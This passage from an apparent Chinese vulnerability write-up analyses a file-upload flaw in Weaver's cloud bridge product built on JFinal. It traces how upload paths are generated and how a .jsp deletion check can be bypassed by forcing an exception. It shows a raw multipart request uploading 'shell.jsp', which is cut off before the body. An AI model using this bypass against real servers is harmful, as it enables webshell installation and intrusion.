 ```java
}

public static String getUpEng() {
    Random r = new Random();
    char c = (char)(r.nextInt(26) + 65);
    char b = (char)(r.nextInt(26) + 65);
    return String.valueOf(c) + String.valueOf(b);
}
```
很明显文件路径是日期加上随机两位大写字母

接下来调用到 JFinal 的文件上传getFile方法
```
at com.jfinal.core.Controller.getFile
at com.jfinal.core.Controller.getFiles
at com.jfinal.upload.MultipartRequest.<init>
at com.jfinal.upload.MultipartRequest.wrapMultipartRequest
```
![](https://i-blog.csdnimg.cn/direct/d0918f5360704feea381b455651ce8dc.png)

生成文件路径，然后调用`com.oreilly.servlet.MultipartRequest#MultipartRequest`

如果存在文件上传操作，则会直接writeTo写文件
![](https://i-blog.csdnimg.cn/direct/a0e2dd8b25414e529525059974a07f46.png)

但是在后续的处理中执行了isSafeFile
```java
if (this.isSafeFile(uploadFile)) {
    this.uploadFiles.add(uploadFile);
}
private boolean isSafeFile(UploadFile uploadFile) {
    if (uploadFile.getFileName().toLowerCase().endsWith(".jsp")) {
        uploadFile.getFile().delete();
        return false;
    } else {
        return true;
    }
}
```
如果后缀为.jsp，则会删除文件

而在泛微云桥中，重写了该方法`\WEB-INF\classes\com\jfinal\upload\MultipartRequest.class`
![](https://i-blog.csdnimg.cn/direct/ca5a0ee0b68a4519bf853567411c491b.png)

如果后缀存在.jsp，则会删除该文件

### 逻辑缺陷绕过
姿势一：
该框架存在一个历史漏洞：[https://github.com/jfinal/jfinal/issues/171](https://github.com/jfinal/jfinal/issues/171)

如果在文件写入之后、触发 isSafeFile 之前发生异常，那么文件就会被保留下来
```
POST /wxclient/app/recruit/resume/addResume HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: */*
Host: 192.168.111.138:8088
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------439073446803390067215790
Content-Length: 352

----------------------------439073446803390067215790
Content-Disposition: form-data; name="file"; filename="shell.jsp"
```